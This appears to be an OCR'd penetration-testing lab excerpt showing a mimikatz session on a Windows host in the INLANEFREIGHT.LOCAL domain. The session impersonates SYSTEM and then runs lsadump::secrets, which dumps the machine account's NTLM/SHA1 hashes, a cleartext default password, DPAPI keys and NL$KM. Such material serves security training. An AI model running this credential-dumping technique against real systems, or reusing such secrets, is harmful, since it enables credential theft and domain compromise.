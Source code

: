 ```cmd-session

564     {0;000003e7} 1 D 30073          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0136075a} 2 F 20322234    ACADEMY-AEN-MS0\ilfserveradm    S-1-5-21-1020326033-369054202-3290056218-1002   (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 20387820    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::secrets
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc

Local name : ACADEMY-AEN-MS0 ( S-1-5-21-1020326033-369054202-3290056218 )
Domain name : INLANEFREIGHT ( S-1-5-21-2814148634-3729814499-1637837074 )
Domain FQDN : INLANEFREIGHT.LOCAL

Policy subsystem is : 1.18
LSA Key(s) : 1, default {13764b01-b89c-8adf-69ec-8937ee43821e}
  [00] {13764b01-b89c-8adf-69ec-8937ee43821e} 587be7dcfb75bb9ebb0c5c75cf4afb4488e602f9926f3404a09ecf8ba20b04e7

Secret  : $MACHINE.ACC
cur/text: -2d"GC)[+6,[+mC+UC5KXVoH>j`S8CAlq1nQCP6:[*-Zv@_NAs`Pm$9xv7ohquyAKz1:rX[E40v)=p8-5@%eK3(<7tZW"I\7`,Bu#]N$'%A`$Z?E@9V2zdh=
    NTLM:ced50a6f3cb256110200dcb022b32c12
    SHA1:0b5cb5af0f13110312456892b7ebede53db440e8
old/text: -2d"GC)[+6,[+mC+UC5KXVoH>j`S8CAlq1nQCP6:[*-Zv@_NAs`Pm$9xv7ohquyAKz1:rX[E40v)=p8-5@%eK3(<7tZW"I\7`,Bu#]N$'%A`$Z?E@9V2zdh=
    NTLM:ced50a6f3cb256110200dcb022b32c12
    SHA1:0b5cb5af0f13110312456892b7ebede53db440e8

Secret  : DefaultPassword
cur/text: DBAilfreight1!

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 37 62 35 26 80 4c 6b 2f 11 ca 06 25 ab 97 21 3f 84 f8 74 fa bc 69 a1 c4 37 2b df f8 cd 6c 8f 0a 8a d9 67 e9 42 cf 4f 96
    full: 37623526804c6b2f11ca0625ab97213f84f874fabc69a1c4372bdff8cd6c8f0a8ad967e942cf4f96
    m/u : 37623526804c6b2f11ca0625ab97213f84f874fa / bc69a1c4372bdff8cd6c8f0a8ad967e942cf4f96
old/hex : 01 00 00 00 51 9c 86 b4 cb dc 97 8b 35 9b c0 39 17 34 16 62 31 98 c1 07 ce 7d 9f 94 fc e7 2c d9 59 8a c6 07 10 78 7c 0d 9a 56 ce 0b
    full: 519c86b4cbdc978b359bc039173416623198c107ce7d9f94fce72cd9598ac60710787c0d9a56ce0b
    m/u : 519c86b4cbdc978b359bc039173416623198c107 / ce7d9f94fce72cd9598ac60710787c0d9a56ce0b

Secret  : NL$KM
cur/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
old/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
```
